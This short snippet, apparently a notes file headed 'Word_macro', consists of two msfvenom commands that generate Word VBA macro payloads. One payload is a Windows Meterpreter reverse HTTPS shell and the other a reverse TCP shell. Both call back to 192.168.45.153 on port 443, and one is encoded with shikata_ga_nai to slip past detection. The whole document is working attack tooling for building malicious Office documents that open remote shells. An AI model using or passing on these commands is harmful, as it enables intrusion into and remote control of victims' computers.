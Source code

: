 # Word_macro
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.153 LPORT=443 EXITFUNC=thread -f vbapplication
<br>
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.153 LPORT=443 -e x64/shikata_ga_nai -f vbapplication
